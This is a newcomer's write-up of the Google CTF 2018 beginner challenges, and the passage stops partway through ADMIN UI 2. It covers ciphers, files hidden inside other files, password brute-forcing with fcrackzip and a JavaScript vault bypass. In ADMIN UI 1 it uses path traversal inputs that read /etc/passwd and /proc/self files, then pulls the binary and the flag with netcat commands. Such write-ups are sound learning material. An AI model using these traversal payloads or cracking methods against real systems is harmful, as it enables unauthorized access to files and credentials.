



googleCTF18-beginner-writeup
============================

A writeup on the Google CTF beginner challenges

# Introduction

This is my first attempt at a CTF challenge. I had no experience in this field prior to this. Taking the beginners quest at this competition was quite challenging for me.

In order to archive my knowledge gained, I wrote this little *blog*. Your feedback is very welcome.

# Table of Contents

* [LETTER (misc)](#letter)
* [OCR IS COOL (misc)](#ocriscool)
* [MOAR (pwn)](#moar)
* [FLOPPY](#floppy)
    * [FLOPPY 1 (misc)](#floppy1)
    * [FLOPPY 2 (misc)](#floppy2)
* [SECURITY BY OSCURITY (misc)](#securitybyoscurity)
* [JS SAFE (web)](#jssafe)
* [ADMIN UI](#adminui)
    * [ADMIN UI 1 (pwn-re)](#adminui1)
    * [ADMIN UI 2 (pwn-re)](#adminui2)
    * [ADMIN UI 3 (pwn-re)](#adminui3)
* [FIRMWARE (re)](#firmware)
* [GATEKEEPER (re)](#gatekeeper)
* [FILTER ENV (pwn)](#filterenv)
* [MEDIA-DB ENV (misc)](#mediadb)
* [FRIDGE TODO LIST (pwn)](#fridgetodo)
* [HOLEY BEEP (pwn)](#holeybeep)

# Tasks

<a name="letter"></a>

## LETTER (misc)

As a gentle introduction, your task was to retrieve the credentials off a letter. The letter was given as PDF and the credentials were sanitized.

However recovering the flag was trivial, as you could simply open the file in your favourite PDF-Viewer and copy & paste the plain text.

This revealed the first flag *CMF{ICanReadDis}*

<a name="ocriscool"></a>

## OCR IS COOL (misc)

The next task was to extract the flag from an email. The mail was given as PNG Image file.

Taking a look at the image suggests that the content is encrypted:



Re-reading the problem description suggests that it may be encrypted using the well known *Caesar cipher*. This cipher simply rotates each letter in the alphabet by N positions. N therefor corresponds to the *key*.

Example with N = 3:

|          | 0 | 1 | 2 | 3 | ... | 23 | 24 | 25 |
|----------|---|---|---|---|-----|----|----|----|
| *ABC*    | A | B | C | D | ... | X  | Y  | Z  |
| *Cipher* | D | E | F | G | ... | A  | B  | C  |


The first thing that came to my mind when trying to decrypt it, was the email's first word: *WXTK*
I suspected it would be some kind of salutation since it looks like an official support notice from the renowned company *iDropDrive*. Therefor a typical first word would *'Dear'*.

Looking up the offset for the first letter suggests N = 19. Comparing the following letters after decrypting the cipher with the key indeed yields the word *DEAR*!

In order to decrypt the whole message I wrote a little python script:
```python
#!/bin/python3
import sys

KEY = 19
ABC = 'ABCDEFGHIJKLMNOPQRSTUVWXYZ'


def decrypt(letter):
	i = ABC.find(letter.upper())
	if i < 0:  # ignore any special char
		return letter
	return ABC[i - KEY]

if __name__ == '__main__':
	cipher_text = sys.argv[1]
	print(''.join(map(decrypt, cipher_text)))

```

Eventually after decrypting the mail you'll find the next flag *CTF{caesarcipherisasubstitutioncipher}*.


<a name="moar"></a>

## MOAR (pwn)

As you recovered the credentials you proceeded to a device called 'Foobanizer9000'. From there you are able to retrieve manual pages via a networking service.

You can connect to it using *netcat*:
```
$ nc moar.ctfcompetition.com 1337
```

The service will serve you help pages and accepts certain commands to navigate.
On these pages three cli tools are described. You may also access help pages which provide useful information about the way you can interact with the service.
Especially the latter are pretty convenient: For example using `/query` allows you to search the whole manual for *query*. My first idea was to use this for some useful information retrieval.

Sadly this lead to nothing..

But skimming further through the navigation help pages revealed an interesting feature: You are allowed to type in shell commands directly by preceeding your input by an '!'.

Abusing this and navigating through the directories of the linux system yielded the flag found in a shell script in the home directory: *CTF{SOmething-CATastr0phic}*.


<a name="floppy"></a>

## FLOPPY

<a name="floppy1"></a>

### FLOPPY (misc)

As you logged in to the 'Foobanizer9000' you notice a floppy drive with a disk in it. Investigating its content you find a file *'foo.ico'*.

When observing it, one may notice some strange areas in the picture. Maybe taking a look at the binary form yields further information?

The file header looks like this:
```
$ hexdump -n 32 -C foo.ico

00000000  00 00 01 00 01 00 20 20  10 00 00 00 00 00 e8 02  |......  ........|
00000010  00 00 16 00 00 00 28 00  00 00 20 00 00 00 40 00  |......(... ...@.|
00000020
```

Note that the displayed bytes are encoded using the *little endian* system. That means, broadly spoken, that each sequence of bytes is displayed in reverse order.

Investigating the header everything seems to be normal: Interpreting the typical .ICO file header as described f.e. on [wikipedia]('https://en.wikipedia.org/wiki/ICO_(file_format)'), one can gather the following metadata:

* image type is indeed .ICO
* 1 image in the file
* Picture of size 32x32
* 16 colors in the color palette
* size of picture in bytes = 0x2e8
* offset where the actual picture data start

Let's take a look at the rest of the file:
```
$ hexdump -s 0x250 -C foo.ico

00000250  44 49 19 19 19 19 19 19  19 10 19 19 19 31 44 44  |DI...........1DD|
00000260  44 4b bb bb bb bb bb bb  bb bb bb bb bb b1 11 11  |DK..............|
00000270  11 11 11 11 11 11 11 11  11 11 11 11 11 11 00 00  |................|
00000280  0f ff 00 00 05 dd 00 00  03 ff 00 00 01 ff 00 00  |................|
00000290  00 ff 00 00 00 5d 00 00  00 3f 00 00 00 1f 00 00  |.....]...?......|
000002a0  00 0f 00 00 00 05 00 00  00 03 00 00 00 01 00 00  |................|
000002b0  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
*                                                                        v-- original content ends
000002f0  00 00 00 00 00 00 00 00  00 00 00 00 00 50 4b 03  |.............PK.|
00000300  04 14 00 00 00 08 00 8d  81 d6 4c fd ee 87 3e 7b  |..........L...>{|
00000310  00 00 00 88 00 00 00 0a  00 1c 00 64 72 69 76 65  |...........drive|
00000320  72 2e 74 78 74 55 54 09  00 03 ca 03 2d 5b fc 03  |r.txtUT.....-[..|
00000330  2d 5b 75 78 0b 00 01 04  4f 9a 01 00 04 53 5f 01  |-[ux....O....S_.|
00000340  00 1d 8b 41 0a c2 30 14  05 f7 39 c5 3b 80 16 57  |...A..0...9.;..W|
00000350  d2 ad 0a a2 76 5b 11 97  21 f9 6d 83 26 bf fe 24  |....v[..!.m.&..$|
[ * ]
00000520  5f 01 00 50 4b 01 02 1e  03 14 00 00 00 08 00 01  |_..PK...........|
00000530  81 d6 4c e6 85 84 66 d6  00 00 00 e1 00 00 00 07  |..L...f.........|
00000540  00 18 00 00 00 00 00 01  00 00 00 a4 81 bf 00 00  |................|
00000550  00 77 77 77 2e 63 6f 6d  55 54 05 00 03 c1 02 2d  |.www.comUT.....-|
00000560  5b 75 78 0b 00 01 04 4f  9a 01 00 04 53 5f 01 00  |[ux....O....S_..|
00000570  50 4b 05 06 00 00 00 00  02 00 02 00 9d 00 00 00  |PK..............|
00000580  d6 01 00 00 00 00                                 |......|
00000586k
```

Some text is readable and seems to make sense: This clearly did not happen to be chance.
When inspecting the file length one may also notice that the file is way longer than the promised `0x2e8 + size of header` bytes. Actually the declared content ends right before the strange looking letters *'PK'*.

The next step took me quite some time, but eventually you'll find out that there is something called *file signatures*. Sometimes also referred to as *magic numbers*. Those signatures can be used to identify file types and are the first few bytes in every common format.
A quick query to your favourite search engine yields this sweet list of [magic numbers](https://en.wikipedia.org/wiki/List_of_file_signatures).

Skimming through the list one finds that a typical ZIP-file has the magic number `50 4b 03 04`, which coincidentally matches our findings perfectly.

The next step would be to extract the last bytes from the file (i.e. the embedded ZIP-file) and extract it.

Side note: Eventually if I would have done this prior frustration, my OS would have told me that I have an compressed archive right in front of me...

On the way I learned about a tool called [*binwalk*](https://github.com/ReFirmLabs/binwalk). It is a rather feature-rich binary analysis command line tool. With this tool one can simply extract embedded binaries (and in this case directly extract the archive):
```
$ binwalk -e foo.ico
```
This will yield two files and in *driver.txt* the desired flag can be found: *CTF{qeY80sU6Ktko8BJW}*

<a name="floppy2"></a>

### FLOPPY 2 (misc)

*TODO*


<a name="securitybyoscurity"></a>

## SECURITY BY OSCURITY (misc)

Your task is to extract a key that a guy named "John" used to pack the firmware of a router with. All you are given is the package.

The package has a weirdly long name:
```
password.x.a.b.c.d.e.f.g.h.i.j.k.l.m.n.o.p.a.b.c.d.e.f.g.h.i.j.k.l.m.n.o.p.p.o.n.m.l.k.j.i.h.g.f.e.d.c.b.a.a.b.c.d.e.f.g.h.i.j.k.l.m.n.o.p
```

It consists of lower case letters partially ordered, each seperated by a dot (.). Taking a closer look reveals that each ordered subsequence is of length 16.

Side note: At the time I did not know about the magic numbers which left me clueless about the sequences given.

But again taking a look at the binary representation opens another lead:
```
hexdump -n 32 -C password.x.a.b.c.d.e.f # full name omitted
00000000  50 4b 03 04 14 00 00 00  08 00 ab 6e ce 4c 5a 58  |PK.........n.LZX|
00000010  8f 31 b6 29 00 00 78 2a  00 00 88 00 1c 00 70 61  |.1.)..x*......pa|
00000020
```

The first bytes look familiar? It is another ZIP-Archive!

Let's see what is hidden inside:
```
password.x.a.b.c.d.e.f.g.h.i.j.k.l.m.n.o.p.a.b.c.d.e.f.g.h.i.j.k.l.m.n.o.p.p.o.n.m.l.k.j.i.h.g.f.e.d.c.b.a.a.b.c.d.e.f.g.h.i.j.k.l.m.n.o
```

Another weird file.

Now what? Right, taking a look at the binary dump always worked.
Eventually one finds out that it is another archive. And inside? Another archive.

Since unpacking them all is kinda boring I wrote a little script which does it for me:

```bash
#!/bin/bash

# let's go deep!
for i in {1..9999}
do
	# in order to let the directory clean I unzip a file and delete the original one after
	find . -name 'password*' -type f -exec unzip {} \; -exec rm {} \; -exec echo "Extraced {}" \;
done
```

When running this script it soon errors out: *'Zip is not able to decompress the given file'*.
What happened? Investigating the last file produced suggests that the compression algorithm changed. Annoying.

As it turned out the next algorithm used was [XZ](https://en.wikipedia.org/wiki/Xz).

Retracing the recursion depth also yielded that the actual recompression-depth was 16. What are the odds?

After adapting the script accordingly, one finally reaches another layer of algorithm-change. The next program used was [bzip2](https://en.wikipedia.org/wiki/Bzip2).
So we adapt the script again and are now pretty close to the final archive! Well, we hope so.

Eventually (after the next compression using [gzip](https://en.wikipedia.org/wiki/Gzip)) we reach the end.

The file recieved is an archive encrypted with a password. :(

After trying out some simple passwords like "John" or "password" I gave up. A quick reseach suggested that bruteforce is the only option.

I used [fcrackzip](http://manpages.ubuntu.com/manpages/trusty/man1/fcrackzip.1.html) for this task.
```
$ fcrackzip -b -c a -u -l 1-5 archive.zip
```

The parameters mean bruteforce (-b) using all combinations of lower case letters (-c a) over length from 1 to 5 (-l 1-5). The -u option is used to force unpacking for validating (otherwise too many candidates were found, for further information check the given link on fcrackzip).

After a couple of seconds the correct password `asdf` was found. (Meh.)

Extracting the archive finally yielded the flag *CTF{CompressionIsNotEncryption}*.


<a name="jssafe"></a>

## JS SAFE (web)

This was the next challenge I was able to solve. You were given an HTML-file with a built-in 'vault' written in java script.
In order to open the save you are required to enter a password:



When inspecting the page source one can retrace how the password is checked.
1. The password is checked against a regular expression limiting your input to `CTF{([0-9a-zA-Z_@!?-]+)}`
2. The inner part (i.e. matching group) will be passed to a function which will determine if the password is valid
3. Eventually the content of the safe will be decrypted using AES and a SHA256 hash of your password as key

Obviously the flag of desire is the password as the regex looks suspiciously similiar.

Let's take a closer look at the function checking your password.
```javascript
// Why is it async?
async function x(password) {
    // TODO: check if they can just use Google to get the password once they understand how this works.
    var code = 'icffjcifkciilckfmckinc'  # full code omitted, total length about 17k
    var env = {
        a: (x,y) => x[y],
        b: (x,y) => Function.constructor.apply.apply(x, y),
        c: (x,y) => x+y,
        d: (x) => String.fromCharCode(x),
        e: 0,
        f: 1,
        g: new TextEncoder().encode(password),
        h: 0,
    };
    for (var i = 0; i < code.length; i += 4) {
        var [lhs, fn, arg1, arg2] = code.substr(i, 4);
        try {
            env[lhs] = env[fn](env[arg1], env[arg2]);
        } catch(e) {
            // Why does it need initialization with 'new'?
            env[lhs] = new env[fn](env[arg1], env[arg2]);
        }
        // Where does the 'Promise' come from?
        if (env[lhs] instanceof Promise) env[lhs] = await env[lhs];
    }
    return !env.h;
}
```

I have added a few comments to parts which do not seem right at first sight.
The given password is passed as common string, so why does this function need to be `async`? When skimming further through the source code one finds that at some point a result from a `Promise` is awaited. This resolves the requirement for an async function, however it is not obvious where the *Promise* comes from.
Equally strange is the fact that some objects seems to be constructed using `new` but the initial map does not contain any objects which justify this.

Another seemingly convenient part is that the return value consists only of `!env.h`.
One might guess that the function builds some functions, applies them to the given password and eventually maps all results to `env.h`.

In order to gain some insight I simply put in a random password and placed a breakpoint inside the *catch-block*. This seemed like good starting point, as it would allow me to check which object will be created and resolve the question mentioned.

Side note: For all further research I used the password *CTF{aaaaaa}*.

When entering the password soon the breakpoint got hit and I was able to inspect the local variables.
It turns out that the `Promise` we were wondering about was produced by `crypto.subtle.digest`!

Without further investigation about how we got to that point, I simply retraced the arguments given to that function call. It turns out that the function hashed our password using sha256. The hash is then stored in `env` using a new key.

In order to trace the upcoming changes applied to the hash I single-stepped through the function until I was able to make an *educated guess* what is going on.
It may be boiled down to this:
1. The password is hashed using sha256 (The return value is an `ArrayBuffer`)
2. This buffer is then converted to an `Uint8Array`
3. This array is then traversed and each value
    * is xor'ed with a pre-defined value
    * and then xor'ed with the value stored in `env.h` (initially 0)

This routine is easily exploitable as you can simply intercept the pre-defined value of step 3.
I adapted the source accordingly, it now logs the hash to the console:
```javascript
async function x(password) {
    // TODO: check if they can just use Google to get the password once they understand how this works.
    var code = 'icffjcifkciilckf' # code omitted again
    var env = {
        a: (x,y) => x[y],
        b: (x,y) => {
          return Function.constructor.apply.apply(x, y);
        },
        c: (x,y) => x+y,
        d: (x) => String.fromCharCode(x),
        e: 0,
        f: 1,
        g: new TextEncoder().encode(password),
        h: 0,
    };
    let raw_buffer_pos = null;
    let int_buffer_pos = null;
    let take_next = false;
    let hash = [];
    for (var i = 0; i < code.length; i += 4) {
        var [lhs, fn, arg1, arg2] = code.substr(i, 4);
        if (take_next) {
            console.log('Should:', env[arg2], 'Is:', env[arg1]);
            hash.push(env[arg2]);
            take_next = false;
        }
        if (arg1 === int_buffer_pos) {
            // Takes the next element from the buffer, the next call will reveal the desired hash value
            take_next = true;
        }
        if (arg1 === raw_buffer_pos) {
            // The raw buffer gets converted to uint array and will be stored at `lhs`
            int_buffer_pos = lhs;
        }
        try {
            env[lhs] = env[fn](env[arg1], env[arg2]);
        } catch(e) {
            env[lhs] = new env[fn](env[arg1], env[arg2]);
        }
        if (env[lhs] instanceof Promise) {
            let buffer = await env[lhs];
            raw_buffer_pos = lhs;
            env[lhs] = buffer;  // contains sha256 hash of the given password
        }
    }
    console.log(hash);
    return Uint8Array.from(hash);
}
```

Entering a random password will still deny the access but we now have the correct hash!
After converting it to hex for convenience reasons it looks like this:
```
e66860546f18cdbbcd86b35e18b525bffc67f772c650cedfe3ff7a0026fa1dee
```

But how do we open the vault?

You may have noticed that the code snippet visible above now returns the correct hash instead of acknowledging the password.
As mentioned above only the hash of the password is required to decrypt the vault and luckily the same hash algorithm was used here :)

Simply bypassing the second hash calculation and substituting the aquired hash will unlock the vault. We are rewarded with a link to the [OffHub Managment Interface](http://router-ui.web.ctfcompetition.com).



However the flag required sadly is the password. As the *TODO* comment suggests Google may help.
A little search effort and I read that an average rainbow table may contain the hash. Indeed one will find the correct flag *CTF{Passw0rd!}* pretty much any table available.

<a name="adminui"></a>

## ADMIN UI

<a name="adminui1"></a>

### ADMIN UI 1 (pwn-re)

You are able to connect to a device called *Tempo-a-matic*.

The command line interface looks like this:
```
=== Management Interface ===
 1) Service access
 2) Read EULA/patch notes
 3) Quit
```

Choosing the *service access* will prompt you with a password input. Selecting option 2 will list recent version updates and asks you which version you would like detailed information about. These patchnotes yield promising information:

>\# Release 0.2
> - Updated library X to version 0.Y
> - Fixed path traversal bug
> - Improved the UX

>\# Version 0.3
> - Rollback of version 0.2 because of random reasons
> - Blah Blah
> - Fix random reboots at 2:32 every second Friday when it's new-moon.

Apparently a *path traversal bug* exists in the software!

Selecting a random file in the second menu gives a generic error message:
```
The following patchnotes were found:
 - Version0.2
 - Version0.3
Which patchnotes should be shown?
random_file
Error: No such file or directory
```

Let's try out some files which should be present on a typical linux system:
```
The following patchnotes were found:
 - Version0.2
 - Version0.3
Which patchnotes should be shown?
/etc/passwd
Error: No such file or directory
```

Sadly this did not succeed. However maybe only relative paths are possible?
```
The following patchnotes were found:
 - Version0.2
 - Version0.3
Which patchnotes should be shown?
../../../../../../etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
_apt:x:104:65534::/nonexistent:/bin/false
user:x:1337:1337::/home/user:
```

Success! We now know that the home directory is located at `/home/user`.

What can we do next? Trying to access some other default files like
* /etc/resolv.conf
* /etc/issue
* /home/user/.bash_history
* ..

did not lead to any further information.

During research I found out about a special unix folder called `/proc/self`. This folder gets mapped differently dependent on the PID of the process accessing it. It contains information about the process and accessing this folder through the interface will leak information about it!

```
The following patchnotes were found:
 - Version0.2
 - Version0.3
Which patchnotes should be shown?
../../../../proc/self/maps
00400000-00401000 r-xp 00000000 08:01 768497                             /home/user/main
41414000-41415000 r-xp 00014000 08:01 768497                             /home/user/main
41615000-41616000 r--p 00015000 08:01 768497                             /home/user/main
41616000-41617000 rw-p 00016000 08:01 768497                             /home/user/main
42977000-429a9000 rw-p 00000000 00:00 0                                  [heap]
7fbaea7d0000-7fbaea990000 r-xp 00000000 08:01 768904                     /lib/x86_64-linux-gnu/libc-2.23.so
7fbaeab94000-7fbaeab96000 rw-p 001c4000 08:01 768904                     /lib/x86_64-linux-gnu/libc-2.23.so
7fbaeab96000-7fbaeab9a000 rw-p 00000000 00:00 0
7fbaeab9a000-7fbaeabb0000 r-xp 00000000 08:01 768925                     /lib/x86_64-linux-gnu/libgcc_s.so.1
7fbaeb0b8000-7fbaeb0b9000 rw-p 00108000 08:01 768936                     /lib/x86_64-linux-gnu/libm-2.23.so
7fbaeb0b9000-7fbaeb22b000 r-xp 00000000 08:01 769792                     /usr/lib/x86_64-linux-gnu/libstdc++.so.6.0.21
7fbaeb435000-7fbaeb437000 rw-p 0017c000 08:01 769792                     /usr/lib/x86_64-linux-gnu/libstdc++.so.6.0.21
7fbaeb437000-7fbaeb43b000 rw-p 00000000 00:00 0
7fbaeb43b000-7fbaeb461000 r-xp 00000000 08:01 768884                     /lib/x86_64-linux-gnu/ld-2.23.so
7fbaeb658000-7fbaeb65e000 rw-p 00000000 00:00 0
7fbaeb660000-7fbaeb661000 r--p 00025000 08:01 768884                     /lib/x86_64-linux-gnu/ld-2.23.so
7fbaeb661000-7fbaeb662000 rw-p 00026000 08:01 768884                     /lib/x86_64-linux-gnu/ld-2.23.so
7fbaeb662000-7fbaeb663000 rw-p 00000000 00:00 0
7fffcc786000-7fffcc7a7000 rw-p 00000000 00:00 0                          [stack]
7fffcc7c3000-7fffcc7c6000 r--p 00000000 00:00 0                          [vvar]
7fffcc7c6000-7fffcc7c8000 r-xp 00000000 00:00 0                          [vdso]
ffffffffff600000-ffffffffff601000 r-xp 00000000 00:00 0                  [vsyscall]
```

We can gather quite a lot from this:
* The executable currently running is located at `/home/user/main`
* Apparently it is a compiled C++ executable

The folder even contains the binary executable located at `/proc/self/exe`.

I simply downloaded the binary using the following command:
```bash
$ echo "2 ../../../../home/user/main 3" | nc mngmnt-iface.ctfcompetition.com 1337 > main.bin
```

After this step the binary still contains some of the junk bytes which were part of the menu (i.e. the user prompt etc.). Trimming the leading and trailing bytes leaves us with the perfectly intact executable.

Let's take a look at the disassembled binary:
```
objdump -d -M intel main.bin | less
```

At first sight we can see several functions:
* `debug_shell`
* `getsxPc`
* `command_line`
* `secondary_login`
* `primary_login`
* `main`

When inspecting the source of *primary_login* we also notice a suspicious named symbol *FLAG_FILE*.

Let's run the executable and connect a debugger to it to see what is going on when trying to log in.

I connect gdb to the process and put a breakpoint to *primary_login*:
```
$ gdb -p <PID of process>
gdb$ break primary_login
```

After navigating the interface to the service access I quickly hit the breakpoint.
When inspecting the memory at `0x41414a2c` (i.e. FLAG_FILE) one will recieve the string 'flag':
```
gdb$ x/s 0x41414a2c
0x41414a2c <_ZL9FLAG_FILE>:     "flag"
```

When stepping through the instructions one quickly realizes that the program opens a file called 'flag' and reads it. Since we have full access to the files we can simply fetch it:

```bash
$ echo "2 ../../../home/user/flag 3" | nc mngmnt-iface.ctfcompetition.com 1337
```

Et voilà! We recieve the next flag *CTF{I_luv_buggy_sOFtware}*!

<a name="adminui2"></a>

### ADMIN UI 2 (pwn-re)

As we recieved further information about the software we would now like to login to the service.

Entering the previously uncovered flag will get us past the login however a 'two-factor-authentication' is required:
```
Please enter the backdoo^Wservice password:
CTF{I_luv_buggy_sOFtware}
! Two factor authentication required !
Please enter secret secondary password:
```

The second login is handled by the already discovered function `secondary_login`. Let's break it down:
```objdump
0000000041414446 <_Z15secondary_loginv>:
    41414446:	55                   	push   rbp
    41414447:	48 89 e5             	mov    rbp,rsp
    4141444a:	48 81 ec 90 00 00 00 	sub    rsp,0x90
    41414451:	48 8d 3d d8 06 00 00 	lea    rdi,[rip+0x6d8]        # 41414b30 <_ZL4FLAG+0xf0>
    41414458:	e8 33 c6 fe be       	call   400a90 <puts@plt>
    4141445d:	48 8d 3d f4 06 00 00 	lea    rdi,[rip+0x6f4]        # 41414b58 <_ZL4FLAG+0x118>
    41414464:	e8 27 c6 fe be       	call   400a90 <puts@plt>
    41414469:	48 8d 85 70 ff ff ff 	lea    rax,[rbp-0x90]
    41414470:	48 89 c6             	mov    rsi,rax
    41414473:	48 8d 3d 06 07 00 00 	lea    rdi,[rip+0x706]        # 41414b80 <_ZL4FLAG+0x140>
    4141447a:	b8 00 00 00 00       	mov    eax,0x0
    4141447f:	e8 7c c6 fe be       	call   400b00 <scanf@plt>
    41414484:	48 8d 85 70 ff ff ff 	lea    rax,[rbp-0x90]
    4141448b:	48 89 c7             	mov    rdi,rax
    4141448e:	e8 7d c6 fe be       	call   400b10 <strlen@plt>
    41414493:	48 89 45 f0          	mov    QWORD PTR [rbp-0x10],rax
    41414497:	48 c7 45 f8 00 00 00 	mov    QWORD PTR [rbp-0x8],0x0
    4141449e:	00
```

The first part displays the auth-required-message and reads in the user input. We sadly cannot exploit any buffer overflow or string format vulnerability.
Eventually the length of the string is stored at `rbp - 0x10` and we can also notice that at `rbp - 0x8` a new local variable is set to 0.
Such structure seems odly familiar and indeed the program continues to loop over the input string:

```objdump
    4141449f:	48 8b 45 f8          	mov    rax,QWORD PTR [rbp-0x8]
    414144a3:	48 3b 45 f0          	cmp    rax,QWORD PTR [rbp-0x10]
    414144a7:	73 2d                	jae    414144d6 <_Z15secondary_loginv+0x90>
    414144a9:	48 8d 95 70 ff ff ff 	lea    rdx,[rbp-0x90]
    414144b0:	48 8b 45 f8          	mov    rax,QWORD PTR [rbp-0x8]
    414144b4:	48 01 d0             	add    rax,rdx
    414144b7:	0f b6 00             	movzx  eax,BYTE PTR [rax]
    414144ba:	83 f0 c7             	xor    eax,0xffffffc7
    414144bd:	89 c1                	mov    ecx,eax
    414144bf:	48 8d 95 70 ff ff ff 	lea    rdx,[rbp-0x90]
    414144c6:	48 8b 45 f8          	mov    rax,QWORD PTR [rbp-0x8]
    414144ca:	48 01 d0             	add    rax,rdx
    414144cd:	88 08                	mov    BYTE PTR [rax],cl
    414144cf:	48 83 45 f8 01       	add    QWORD PTR [rbp-0x8],0x1
    414144d4:	eb c9                	jmp    4141449f <_Z15secondary_loginv+0x59>
```

The loop simply takes every byte of the input and xors it using a fixed value of `0xc7` (see instruction *0x414144ba*).

After the loop the length of the password is checked: (Note that the length of the input got stored at `rbp - 0x10`)
```objdump
    414144d6:	48 83 7d f0 23       	cmp    QWORD PTR [rbp-0x10],0x23
    414144db:	75 5a                	jne    41414537 <_Z15secondary_loginv+0xf1>
```
You may notice that the length is hardcoded and required to be 35. If the length of the password does not match the program will jump to the access denied section (check below).

However if the length does match it continues with loading 35 bytes from the memory address at the named symbol 'FLAG' (`0x41414a40`):

